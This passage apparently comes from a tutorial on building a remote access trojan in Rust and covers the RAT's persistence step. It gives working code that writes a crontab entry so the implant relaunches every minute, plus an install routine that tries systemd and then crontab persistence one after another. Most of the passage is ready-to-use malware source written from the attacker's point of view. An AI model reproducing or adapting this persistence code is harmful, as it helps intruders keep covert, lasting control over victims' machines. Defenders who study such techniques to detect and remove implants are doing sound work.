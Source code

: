 Every minute, `crond` (the `cron` daemon) will try to load our RAT.

It can be ported to Rust like that:
```rust
fn install_crontab(executable: &PathBuf) -> Result<(), crate::Error> {
    let cron_expression = format!("* * * * * {}\n", executable.display());
    let mut crontab_file = config::get_agent_directory()?;
    crontab_file.push("crontab");

    let crontab_output = Command::new("crontab").arg("-l").output()?.stdout;
    let current_tasks = String::from_utf8(crontab_output)?;
    let current_tasks = current_tasks.trim();
    if current_tasks.contains(&cron_expression) {
        return Ok(());
    }

    let mut new_tasks = current_tasks.to_owned();
    if !new_tasks.is_empty() {
        new_tasks += "\n";
    }
    new_tasks += cron_expression.as_str();

    fs::write(&crontab_file, &new_tasks)?;

    Command::new("crontab")
        .arg(crontab_file.display().to_string())
        .output()?;

    let _ = fs::remove_file(crontab_file);

    Ok(())
}
```

Finally, by trying all our persistences techniques, each one after the other, we increase our chances of success.

```rust
pub fn install() -> Result<(), crate::Error> {
    let executable_path = super::copy_executable()?;

    println!("trying systemd persistence");
    if let Ok(_) = install_systemd(&executable_path) {
        println!("success");
        return Ok(());
    }
    println!("failed");

    println!("trying crontab persistence");
    if let Ok(_) = install_crontab(&executable_path) {
        println!("success");
        return Ok(());
    }
    println!("failed");

    // other installation techniques

    Ok(())
}
```
